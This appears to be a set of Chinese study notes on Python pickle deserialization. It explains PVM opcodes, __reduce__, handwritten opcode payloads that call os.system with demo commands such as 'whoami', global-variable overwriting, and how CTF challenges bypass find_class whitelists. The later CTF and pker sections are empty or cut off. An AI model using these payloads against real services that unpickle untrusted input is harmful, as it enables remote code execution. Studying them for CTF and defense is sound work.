

- 学习链接：

https://xz.aliyun.com/t/7436

https://xz.aliyun.com/t/11082

 https://blog.csdn.net/u013008795/article/details/89790828
https://www.cnblogs.com/jefree/p/4461979.html
[LetheSec](https://blog.csdn.net/qq_42181428/article/details/103143526?utm_medium=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-3.channel_param&depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-3.channel_param) 


# pickle 反序列化初探

## 0x00 前言

整篇文章介绍了 pickle 的基本原理、PVM、opcode 解析的详细过程、CTF 赛题实战和 pker 工具的使用，希望这篇文章能给初学 pickle 反序列化知识的童鞋带来帮助。文章内容比较多，如果文章中出现了错误请师傅们指正。

## 0x01 基本知识

### 1.1 pickle 简介

与 PHP 类似，python 也有序列化功能以长期储存内存中的数据。pickle 是 python 下的序列化与反序列化包。

- 与 json 相比，pickle 以二进制形式存储，不易人工阅读。

- json 可以跨语言，而 pickle 是 python 专用的
- pickle 几乎能表示 python 所有的类型，包括自定义类型，json 只能表示一部分内置类型且不能表示自定义类型。

pickle 实际上可用看作一种独立的语言，通过对 opcode 的更改编写可以执行的 python 代码，覆盖变量等操作。直接编写的 opcode 灵活性比使用 pickle 序列化生成的代码更高，有的代码不能通过 pickle 序列化得到（pickle 解析能力大于 pickle 生成能力）。

pickle 模块是以二进制的形式序列化后保存到文件中，保存文件的后缀为`.pkl`，不能直接打开进行预览。

pickle 模块相关函数定义如下：

| 函数  |              说明              |
| :---: | :----------------------------: |
| dumps |    对象序列化为 bytes 对象     |
| dump  | 对象序列化到文件对象，存入文件 |
| loads |     从 bytes 对象反序列化      |
| load  | 对象反序列化，从文件中读取数据 |

- dump 直译是转储的意思，可以联想到序列化对象转储到文件中

- dump 和 dumps 的区别是什么？带 s 的是把对象序列化为 bytes 对象，不带的则把对象序列化为文件对象存入文件。


### 1.2 pickle 可序列化的对象

- `None`、`Ture` 和 `False`

- 整数、浮点数、复数

- str、byte、bytearray

- 只包含可封存对象的集合，包括 tuple、list、set、dict

- 定义在模块最外层的函数（使用 def 定义，lambda 函数则不可以）

- 定义在模块最外层的内置函数

- 定义在模块最外层的类

- `__dict__`属性值或`__getstate__()`函数的返回值是可以被序列化的类

### 1.3 pickle 序列化反序列化示例

#### 1.3.1 简单综合示例

```python
import pickle
i = 99
c = 'c'
l = list('123')
d = {"a":1,"b":"abc","c":[1,2,3]}

filename = "xddpython"
#序列化
with open(filename,'wb') as f:
    pickle.dump(i,f)
    pickle.dump(c,f)
    pickle.dump(l,f)
    pickle.dump(d,f)
#读取序列化后生成的文件
with open(filename,"rb") as f:
    print(f.read())
    
#反序列化
with open(filename,"rb") as f:
    while 1:
        try:
            x = pickle.load(f)
        except Exception:
            break;
        print(x)

```


#### 1.3.2 类的序列化和反序列化

Python 中的 pickle 模块，对类的序列化，记录了类名、方法名、以及类的属性，但是不会记录类中方法的执行代码。所以如果对同一个类序列化后，在改变类中的方法，然后将序列化的文件反序列化生成类，那么生成的类中会使用修改后的方法。

```python
import pickle
class AAA:
    ttt = "ABC"
    def show(self):
        print('abc')
        
#创建AAA对象
a1 = AAA()
print("序列化前：")
print("ttt = ",a1.ttt)
print("show()\t",a1.show())

#序列化
ser = pickle.dumps(a1)

#重新定义类AAA
class AAA:
    ttt = "BBB"
    def show(self):
        print('def')
a2 = pickle.loads(ser)
print("反序列化后：")
print("ttt = ",a2.ttt)
print("show()\t",a2.show())

```


- 实际来看，似乎属性值也没记录？

### 1.4 object.\_\_reduce\_\_() 函数

反序列化漏洞出现在`__reduce__()`魔法函数上，这一点和 PHP 中的`__wakeup()`魔术方法类似，都是因为每当反序列化过程开始或者结束时，都会自动调用这类函数，而这恰好是反序列化漏洞经常出现的地方。

而且在反序列化过程中，因为编程语言需要根据反序列化字符串去解析出自己独特的语言数据结构，所以就必须在内部把解析出来的结构去执行一下。如果在反序列化过程中出现问题，便可能直接造成 RCE 漏洞。


 在 python2 中只有内置类才有`__reduce__`方法，即用`class A(object)`声明的类，而`python3`中已经默认都是内置类了。

在开发时，可以通过重写类的 object.\_\_reduce\_\_() 函数，使之在被实例化时按照重写的方式进行。

具体而言，python 要求 object.\_\_reduce\_\_() 返回一个 `(callable,([para1,para2...])[,...])` 的元组，每当该类的对象被 unpickle 时，该 callable 就会被调用以生成对象(该 callable 其实是构造函数)。

在 pickle 的 opcode 中，`R` 的作用与 object.\_\_reduce\_\_() 关系密切：选择栈上的第一个对象作为函数、第二个对象作为参数（第二个对象必须为元组），然后调用该函数。其实 `R` 正好对应object.\_\_reduce\_\_() 函数，object.\_\_reduce\_\_() 的返回值会作为 `R` 的作用对象，当包含该函数的对象被 pickle 序列化时，得到的字符串是包含了 `R` 的。

- 上面说的啥？不是很懂。。

### 1.5 pickle 过程详细解读

pickle 解析依靠 **Pickle Virtual Machine（PVM）**进行，

PVM 涉及到三个部分：

1.解析引擎 

2.栈 

3.内存

解析引擎：从流中读取 opcode 和参数，并对其进行解释处理。重复这个动作，直到遇到 `.` 停止。最终留在栈顶的值将被作为反序列化对象返回。

栈：由 Python 的 list 实现，被用来临时存储数据、参数以及对象。

memo：由 Python 的 dict 实现，为 PVM 的生命周期提供存储。说人话：将反序列化完成的数据以 key-value 的形式存储在 memo 中，以便后来使用。

- 为了便于理解，我把 BH 讲稿中的相关部分制成了动图，PVM 解析 `str` 的过程动图：



- PVM解析 `__reduce__()` 的过程动图：


### 1.6 opcode 版本

pickle 由于有不同的实现版本，在 py3 和 py2 中得到的 opcode 不相同。但是 pickle 可以向下兼容，所以用 v0 就可以在所有版本中执行。目前，pickle 有 6 种版本。

```python
import pickle

a={'1': 1, '2': 2}

print(f'# 原变量：{a!r}')
for i in range(4):
    print(f'pickle版本{i}',pickle.dumps(a,protocol=i))

# 输出：
pickle版本 0 b'(dp0\nV1\np1\nI1\nsV2\np2\nI2\ns.'
pickle版本 1 b'}q\x00(X\x01\x00\x00\x001q\x01K\x01X\x01\x00\x00\x002q\x02K\x02u.'
pickle版本 2 b'\x80\x02}q\x00(X\x01\x00\x00\x001q\x01K\x01X\x01\x00\x00\x002q\x02K\x02u.'
pickle版本 3 b'\x80\x03}q\x00(X\x01\x00\x00\x001q\x01K\x01X\x01\x00\x00\x002q\x02K\x02u.'
```

#### pickle3 版本的 opcode 示例：

```python
# 'abcd'
b'\x80\x03X\x04\x00\x00\x00abcdq\x00.'

# \x80：协议头声明 \x03：协议版本
# \x04\x00\x00\x00：数据长度：4
# abcd：数据
# q：储存栈顶的字符串长度：一个字节（即\x00）
# \x00：栈顶位置
# .：数据截止
```

#### pickle0 版本的部分 opcode 表格：


#### pickletools

使用pickletools可以方便的将opcode转化为便于肉眼读取的形式

```python
import pickletools

data=b"\x80\x03cbuiltins\nexec\nq\x00X\x13\x00\x00\x00key1=b'1'\nkey2=b'2'q\x01\x85q\x02Rq\x03."
pickletools.dis(data)

    0: \x80 PROTO      3
    2: c    GLOBAL     'builtins exec'
   17: q    BINPUT     0
   19: X    BINUNICODE "key1=b'1'\nkey2=b'2'"
   43: q    BINPUT     1
   45: \x85 TUPLE1
   46: q    BINPUT     2
   48: R    REDUCE
   49: q    BINPUT     3
   51: .    STOP
highest protocol among opcodes = 2
```

### 漏洞利用

#### 漏洞可能出现的位置

- 解析认证 token、session 的时候

将对象 Pickle 后存储成磁盘文件

将对象 Pickle 后在网络中传输

参数传递给程序


#### 利用思路

任意代码执行或命令执行。

变量覆盖，通过覆盖一些凭证达到绕过身份验证的目的。

#### 命令执行

```python
import pickle
import os

class genpoc(object):
    def __reduce__(self):
        s = """echo test >poc.txt"""  # 要执行的命令
        return os.system, (s,)        # reduce函数必须返回元组或字符串

e = genpoc()
poc = pickle.dumps(e)

print(poc) # 此时，如果 pickle.loads(poc)，就会执行命令
```

```python
import pickle
import os

class Test2(object):
    def __reduce__(self):
    	#被调用函数的参数
        cmd = "/usr/bin/id" 
        return (os.system,(cmd,))

if __name__ == "__main__":
    test = Test2()
    #执行序列化操作
    result1 = pickle.dumps(test)
    #执行反序列化操作
    result2 = pickle.loads(result1)

# __reduce__()魔法方法的返回值:
# return(os.system,(cmd,))
# 1.满足返回一个元组，元组中有两个参数
# 2.第一个参数是被调用函数 : os.system()
# 3.第二个参数是一个元组:(cmd,),元组中被调用的参数 cmd
# 4. 因此序列化时被解析执行的代码是 os.system("/usr/bin/id")
```


#### 变量覆盖

```python
import pickle

key1 = b'321'
key2 = b'123'
class A(object):
    def __reduce__(self):
        return (exec,("key1=b'1'\nkey2=b'2'",))

a = A()
pickle_a = pickle.dumps(a)
print(pickle_a)
pickle.loads(pickle_a)
print(key1, key2)
```

### 如何手写opcode

在CTF中，很多时候需要一次执行多个函数或一次进行多个指令，此时就不能光用`__reduce__`来解决问题，因为`__reduce__`一次只能执行一个函数，当exec被禁用时，就不能一次执行多条指令了；所以我们需要手动拼接或构造opcode，手写opcode是pickle反序列化比较难的地方。

在这里可以体会到为何pickle是一种语言，直接编写的opcode灵活性比使用pickle序列化生成的代码更高，只要符合pickle语法，就可以进行变量覆盖、函数执行等操作。

根据前文不同版本的opcode可以看出，版本0的opcode更方便阅读，所以手动编写时，一般选用版本0的opcode。下文中都是版本为0的opcode。

#### 常用opcode解析

为了充分理解栈的作用，强烈建议一边看动图一边学习opcode的作用：

  

常用opcode含义如下：

| opcode | 描述                                                         | 具体写法                                           | 栈上的变化                                                   | memo上的变化 |
| ------ | ------------------------------------------------------------ | -------------------------------------------------- | ------------------------------------------------------------ | ------------ |
| c      | 获取一个全局对象或import一个模块（注：会调用import语句，能够引入新的包） | c[module]\n[instance]\n                            | 获得的对象入栈                                               | 无           |
| o      | 寻找栈中的上一个MARK，以之间的第一个数据（必须为函数）为callable，第二个到第n个数据为参数，执行该函数（或实例化一个对象） | o                                                  | 这个过程中涉及到的数据都出栈，函数的返回值（或生成的对象）入栈 | 无           |
| i      | 相当于c和o的组合，先获取一个全局函数，然后寻找栈中的上一个MARK，并组合之间的数据为元组，以该元组为参数执行全局函数（或实例化一个对象） | i[module]\n[callable]\n                            | 这个过程中涉及到的数据都出栈，函数返回值（或生成的对象）入栈 | 无           |
| N      | 实例化一个None                                               | N                                                  | 获得的对象入栈                                               | 无           |
| S      | 实例化一个字符串对象                                         | S'xxx'\n（也可以使用双引号、\'等python字符串形式） | 获得的对象入栈                                               | 无           |
| V      | 实例化一个UNICODE字符串对象                                  | Vxxx\n                                             | 获得的对象入栈                                               | 无           |
| I      | 实例化一个int对象                                            | Ixxx\n                                             | 获得的对象入栈                                               | 无           |
| F      | 实例化一个float对象                                          | Fx.x\n                                             | 获得的对象入栈                                               | 无           |
| R      | 选择栈上的第一个对象作为函数、第二个对象作为参数（第二个对象必须为元组），然后调用该函数 | R                                                  | 函数和参数出栈，函数的返回值入栈                             | 无           |
| .      | 程序结束，栈顶的一个元素作为pickle.loads()的返回值           | .                                                  | 无                                                           | 无           |
| (      | 向栈中压入一个MARK标记                                       | (                                                  | MARK标记入栈                                                 | 无           |
| t      | 寻找栈中的上一个MARK，并组合之间的数据为元组                 | t                                                  | MARK标记以及被组合的数据出栈，获得的对象入栈                 | 无           |
| )      | 向栈中直接压入一个空元组                                     | )                                                  | 空元组入栈                                                   | 无           |
| l      | 寻找栈中的上一个MARK，并组合之间的数据为列表                 | l                                                  | MARK标记以及被组合的数据出栈，获得的对象入栈                 | 无           |
| ]      | 向栈中直接压入一个空列表                                     | ]                                                  | 空列表入栈                                                   | 无           |
| d      | 寻找栈中的上一个MARK，并组合之间的数据为字典（数据必须有偶数个，即呈key-value对） | d                                                  | MARK标记以及被组合的数据出栈，获得的对象入栈                 | 无           |
| }      | 向栈中直接压入一个空字典                                     | }                                                  | 空字典入栈                                                   | 无           |
| p      | 将栈顶对象储存至memo_n                                       | pn\n                                               | 无                                                           | 对象被储存   |
| g      | 将memo_n的对象压栈                                           | gn\n                                               | 对象被压栈                                                   | 无           |
| 0      | 丢弃栈顶对象                                                 | 0                                                  | 栈顶对象被丢弃                                               | 无           |
| b      | 使用栈中的第一个元素（储存多个属性名: 属性值的字典）对第二个元素（对象实例）进行属性设置 | b                                                  | 栈上第一个元素出栈                                           | 无           |
| s      | 将栈的第一个和第二个对象作为key-value对，添加或更新到栈的第三个对象（必须为列表或字典，列表以数字作为key）中 | s                                                  | 第一、二个元素出栈，第三个元素（列表或字典）添加新值或被更新 | 无           |
| u      | 寻找栈中的上一个MARK，组合之间的数据（数据必须有偶数个，即呈key-value对）并全部添加或更新到该MARK之前的一个元素（必须为字典）中 | u                                                  | MARK标记以及被组合的数据出栈，字典被更新                     | 无           |
| a      | 将栈的第一个元素append到第二个元素(列表)中                   | a                                                  | 栈顶元素出栈，第二个元素（列表）被更新                       | 无           |
| e      | 寻找栈中的上一个MARK，组合之间的数据并extends到该MARK之前的一个元素（必须为列表）中 | e                                                  | MARK标记以及被组合的数据出栈，列表被更新                     | 无           |

 此外， `TRUE` 可以用 `I` 表示： `b'I01\n'` ； `FALSE` 也可以用 `I` 表示： `b'I00\n'` ，其他opcode可以在[pickle库的源代码](https://github.com/python/cpython/blob/master/Lib/pickle.py#L111)中找到。
由这些opcode我们可以得到一些需要注意的地方： 

编写opcode时要想象栈中的数据，以正确使用每种opcode。

在理解时注意与python本身的操作对照，比如python列表的`append`对应`a`、`extend`对应`e`；字典的`update`对应`u`。

`c`操作符会尝试`import`库，所以在`pickle.loads`时不需要漏洞代码中先引入系统库。

pickle不支持列表索引、字典索引、点号取对象属性作为左值，需要索引时只能先获取相应的函数，不如`getattr`、`dict.get`才能进行。但是因为存在`s`、`u`、`b`操作符，作为右值是可以的；即查值不行，赋值可以。pickle能够索引查值的操作只有`c`、`i`。而如何查值也是CTF的一个重要考点。

`s`、`u`、`b`操作符可以构造并赋值原来没有的属性、键值对。

#### opcode实例分析

反序列化分析：

 

整个序列化的过程可以分为三个步骤

从对象中提权所有属性

写入对象的所有模块名和类名

写入对象的所有属性的键值对

反序列化的过程就是序列化过程的逆过程。


#### 拼接opcode

将第一个pickle流结尾表示结束的`.`去掉，将第二个pickle流与第一个拼接起来即可。

#### 全局变量覆盖

python源码：

```python
# secret.py
name='TEST3213qkfsmfo'
```

```python
# main.py
import pickle
import secret

opcode='''c__main__
secret
(S'name'
S'1'
db.'''

print('before:',secret.name)

output=pickle.loads(opcode.encode())

print('output:',output)
print('after:',secret.name)
```

 首先，通过 `c` 获取全局变量 `secret` ，然后建立一个字典，并使用 `b` 对secret进行属性设置，使用到的payload： 

```python
opcode='''c__main__
secret
(S'name'
S'1'
db.'''
```

#### 函数执行

 与函数执行相关的opcode有三个： `R` 、 `i` 、 `o` ，所以我们可以从三个方向进行构造： 

1. `R` ：

```
b'''cos
system
(S'whoami'
tR.'''
```

1. `i` ：

```
b'''(S'whoami'
ios
system
.'''
```

1. `o` ：

```
b'''(cos
system
S'whoami'
o.'''
```

#### 实例化对象

 实例化对象是一种特殊的函数执行，这里简单的使用 `R` 构造一下，其他方式类似： 

```python
class Student:
    def __init__(self, name, age):
        self.name = name
        self.age = age

data=b'''c__main__
Student
(S'XiaoMing'
S"20"
tR.'''

a=pickle.loads(data)
print(a.name,a.age)
```

### pker的使用（推荐）

- pker是由@eddieivan01编写的以仿照Python的形式产生pickle opcode的解析器，可以在https://github.com/eddieivan01/pker下载源码。解析器的原理见作者的paper：[通过AST来构造Pickle opcode](https://xz.aliyun.com/t/7012)。
- 使用pker，我们可以更方便地编写pickle opcode，pker的使用方法将在下文中详细介绍。需要注意的是，建议在能够手写opcode的情况下使用pker进行辅助编写，不要过分依赖pker。

### 注意事项

pickle序列化的结果与操作系统有关，使用windows构建的payload可能不能在linux上运行。比如：

```python
# linux(注意posix):
b'cposix\nsystem\np0\n(Vwhoami\np1\ntp2\nRp3\n.'

# windows(注意nt):
b'cnt\nsystem\np0\n(Vwhoami\np1\ntp2\nRp3\n.'
```

### CTF实战

#### 做题之前：了解`pickle.Unpickler.find_class()`

 由于官方针对pickle的安全问题的建议是修改`find_class()`，引入白名单的方式来解决，很多CTF题都是针对该函数进行，所以搞清楚如何绕过该函数很重要。
什么时候会调用`find_class()`： 

1. 从opcode角度看，当出现`c`、`i`、`b'\x93'`时，会调用，所以只要在这三个opcode直接引入模块时没有违反规则即可。
2. 从python代码来看，`find_class()`只会在解析opcode时调用一次，所以只要绕过opcode执行过程，`find_class()`就不会再调用，也就是说`find_class()`只需要过一次，通过之后再产生的函数在黑名单中也不会拦截，所以可以通过`__import__`绕过一些黑名单。

 下面先看两个例子： 

```python
safe_builtins = {'range','complex','set','frozenset','slice',}

class RestrictedUnpickler(pickle.Unpickler):

    def find_class(self, module, name):
        # Only allow safe classes from builtins.
        if module == "builtins" and name in safe_builtins:
            return getattr(builtins, name)
        # Forbid everything else.
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" %(module, name))
```

```python
class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if module == '__main__': # 只允许__main__模块
            return getattr(sys.modules['__main__'], name)
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" % (module, name))
```

- 第一个例子是官方文档中的例子，使用白名单限制了能够调用的模块为`{'range','complex','set','frozenset','slice',}`。
- 第二个例子是高校战疫网络安全分享赛·webtmp中的过滤方法，只允许`__main__`模块。虽然看起来很安全，但是被引入主程序的模块都可以通过`__main__`调用修改，所以造成了变量覆盖。

 由这两个例子我们了解到，对于开发者而言，使用白名单谨慎列出安全的模块则是规避安全问题的方法；而如何绕过`find_class`函数内的限制就是pickle反序列化解题的关键。
此外，CTF中的考察点往往还会结合python的基础知识（往往是内置的模块、属性、函数）进行，考察对白名单模块的熟悉程度，所以做题的时候可以先把白名单模块的文档看一看:) 

#### 1.Code-Breaking:picklecode

题目将pickle能够引入的模块限定为`builtins`，并且设置了子模块黑名单：` {'eval', 'exec', 'execfile', 'compile', 'open', 'input', '__import__', 'exit'} `，于是我们能够直接利用的模块有：

`builtins`模块中，黑名单外的子模块。

已经`import`的模块：`io`、`builtins`（需要先利用`builtins`模块中的函数）

黑名单中没有`getattr`，所以可以通过`getattr`获取`io`或`builtins`的子模块以及子模块的子模块；而

#### ；2.watevrCTF-2019:Pickle Store

#### 3.高校战疫网络安全分享赛:webtmp

#### 4.CISCN2019 华北赛区 Day1 Web2 ikun


### pker使用说明

